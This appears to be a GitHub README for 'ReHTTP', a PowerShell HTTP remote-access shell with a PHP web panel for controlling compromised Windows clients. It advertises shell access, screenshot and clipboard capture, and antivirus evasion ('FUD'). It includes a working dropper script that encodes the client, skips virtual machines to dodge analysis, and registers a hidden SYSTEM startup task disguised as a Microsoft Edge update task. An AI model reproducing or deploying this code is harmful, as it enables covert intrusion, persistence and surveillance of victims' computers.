 




﻿
<h3 align="center"><img src="https://styles.redditmedia.com/t5_2zmr2/styles/communityIcon_wcik80qt2vx71.png" alt="logo" height="250px"></h3>
<p align="center">
    <b>ReHTTP</b><br>
    </p>
<hr>
<p align="center">
  <b> Simple Powershell Http shell With WEB UI </b>
    </p>
<p align="center">
  <a href="https://php.net">
    <img src="https://img.shields.io/badge/php-8.0.7-green" alt="php">
  </a>
  <a href="#">
    <img src="https://img.shields.io/badge/platform-Windows-red">
  </a>
    <a href="https://www.codefactor.io/repository/github/jxroot/ReHTTP">  <img src="https://www.codefactor.io/repository/github/jxroot/ReHTTP/badge" alt="CodeFactor" /> </a>
   

   

  
</p>
<p><img src="https://s28.picofile.com/file/8463024792/main.png" alt="enter image description here"></p>
<h2 id="shell">🤟 Main</h2>

<ul>
<li>Client list</li>
<li>System Info</li>
<li>Client Status</li>
<li>Set Label</li>
<li>Remove Client</li>
<li>Module</li>
<li>Variable</li>
<li>Event</li>
</ul>
<h2 id="shell">💎 Shell</h2>
<p><img src="https://s29.picofile.com/file/8463025868/shell.png" alt="shell tab demo">
<br></p>
<b>Run Powershell Command And You Can Add Command in Scheduled  </b>
<ul>
<li>Shell Access</li>
</ul>
<h2 id="Module">📟 Module</h2>
<p align="center"><img src="https://s29.picofile.com/file/8463025900/modules.png" alt="enter image description here"></p>
<p align="center"><img src="https://s29.picofile.com/file/8463026284/screenshot.png" alt="enter image description here"></p>
<p align="center"><img src="https://s29.picofile.com/file/8463026126/edi.png" alt="enter image description here"></p>
<b>Run Powershell Code as Function Or Module </b></p>
<pre>note : for use template edit $SERVER_URL in Code</pre>
<ul>
<li>Add Module</li>
<li>Edit Module</li>
<li>Delete Module</li>
--------------templates-----------------------
<li>Beep Sound</li>
<li>MessageBox</li>
<li>Download Current Background</li>
<li>Get System IdleTime</li>
<li>Get System LastInput</li>
<li>Get Public IP</li>
<li>Get-Clipboard</li>
<li>Set-Clipboard</li>
<li>Screenshot</li>
<li>OpenLink</li>
</ul>
<h2 id="Module">🧮 Variable</h2>
<p align="center"><img src="https://s29.picofile.com/file/8463026176/variable.png" alt="enter image description here"></p>

<p align="center"><img src="https://s29.picofile.com/file/8463026184/variables.png" alt="enter image description here"></p>
<b>Run PHP Code as Variable And Use In PowerShell Script</b></p>
<ul>
<li>Add Variable</li>
<li>Edit Variable</li>
<li>Delete Variable</li>
--------------templates-----------------------
<li>random</li>
</ul>
<h2 id="History">📜 History</h2>
<p><img src="https://s29.picofile.com/file/8463026276/history.png" alt="enter image description here"></p>
<b>if Your Client Break You Can Remove Last Command /:</b></p>
<ul>
<li>Show Command And Module</li>
<li>Remove Command</li>
<li>Re Execute Command</li>
</ul>
<h2 id="History">🪄 Event</h2>
<p align="center"><img src="https://s29.picofile.com/file/8463026318/event.png" alt="enter image description here"></p>
<b>Run Custom Command </b></p>
<ul>
<li>First Connection ( Init )</li>
<li>Every Connection ( UP )</li>
<li>Destroy ( Destroy )</li>
</ul>
<h2 id="dependency">🛠 Dependency</h2>
<ul>
<li>PHP 5.4 And Higher</li>
<li>Mysql</li>
</ul>
<h2 id="Antivirus">🦠 Antivirus</h2>
<p><img src="https://s29.picofile.com/file/8463026484/fD0Idrg5jVZx.pnل" alt="enter image description here"></p>
<b>FUD Scan Time + Run Time :)</b>
<h2 id="installation-and-usage">💿 Installation And Usage</h2>
<p>1- Edit $SERVER_URL in Client.ps1</p>
<p>2- Run ps1 script</p>
<p>3- Create Database </p>
<pre class=" language-bash"><code class="prism  language-bash"><span class="token function">git</span> clone https://github.com/jxroot/ReHTTP.git
<span class="token function">cd</span> ReHTTP/Server/
php -S 127.0.0.1:8000 
</code></pre>
<p align="center"><img src="https://s29.picofile.com/file/8463060076/setup.png" alt="enter image description here"></p>
Triger Example For Client
<pre class=" language-bash"><code class="prism  language-bash">
$s = Get-Content client.ps1 | Out-String
$j = [PSCustomObject]@{
  "Script" = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($s))
} | ConvertTo-Json -Compress
$oneline = "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(('" + $j + "' | ConvertFrom-Json).Script)) | iex"
$c = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($oneline))
$template = '
$VM=get-wmiobject win32_computersystem |select -ExpandProperty Model
if(($VM -NotLike "*VMware*") -and ($VM -NotLike "VirtualBox")){
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument " -NoLogo -NonInteractive -NoProfile -ExecutionPolicy Bypass -Encoded  '+ $c + '" 
$trigger = New-ScheduledTaskTrigger -AtStartup 
$settings = New-ScheduledTaskSettingsSet -Hidden
$user = New-ScheduledTaskPrincipal -UserId "SYSTEM" -RunLevel Highest  
Register-ScheduledTask -TaskName "MicrosoftEdgeUpdateTaskMachineUAS" -TaskPath "\"  -Action $action -Settings $settings -Trigger $trigger -Principal $user
Start-ScheduledTask -TaskName "MicrosoftEdgeUpdateTaskMachineUAS" 
}

'
New-Item -Path . -Name evil.ps1 -Value $template -Force

</code></pre>
<h2 id="operating-systems-tested">💻 Operating Systems Tested</h2>
<ul>
<li>Windows 7</li>
<li>Windows 10</li>
<li>Windows 11</li>
</ul>
<h2 id="youtube-tutorials">📹 YouTube Tutorials</h2>
<p><a href="https://youtu.be/U9xNnd3XtMc">How Install And Usage ReHTTP</a></p>
<h2 id="Doante">✌️ Doante Me:</h2>
<ul>
<li>Ethereum (ETH)   : <code>0xfeCB5B86b0694FE943472c11183455924899e618</code> -  ETH Network</li>
<li>Bitcoin  (BTC)   : <code>bc1qnye95tuhvzzhuaywzem7wgp84uz5z9x3pqzadm</code> </li>
<li>Tether   (USDT)  : <code>TAaN7FgmD1HQYwJRgdYsGWB8Uhunj6FGWh</code> - TRC20</li>
<li>Toncoin  (TON)   : <code>UQCcdnF94j0Uqxyt7gVHQkx7oRwzZTQFyJ7fhXhM2Sq_SFGS</code> </li>


</ul>
<h2 id="next-update">🔱 Next Update</h2>
<ul>
<li>fix  ui bugs</li>
<li>clean code </li>
<li>add event for distroy</li>
<li>add multi exec command for client</li>
<li>upload and  download module</li>
<li>async command</li>
<li>scheduled task ( Date )</li>
<li>background task </li>
<li>ui for system information and manage like hiorbit</li>
<li>add file manager </li>
<li>security (xss,csrf,rce,login page,...)</li>
</ul>
<h2 id="contact">📧 Contact</h2>
<p >
<a href="https://t.me/amajax"><img title="Telegram" src="https://img.shields.io/badge/Telegram-black?style=for-the-badge&logo=Telegram"></a>
<a href="https://www.youtube.com/channel/UC0-QcOXgzRgSfcE3zerwu9w/?sub_confirmation=1"><img title="Youtube" src="https://img.shields.io/badge/Youtube-red?style=for-the-badge&logo=Youtube"></a>
<a href="https://www.instagram.com/sectoolfa"><img title="Instagram" src="https://img.shields.io/badge/Instagram-white?style=for-the-badge&logo=Instagram"></a>

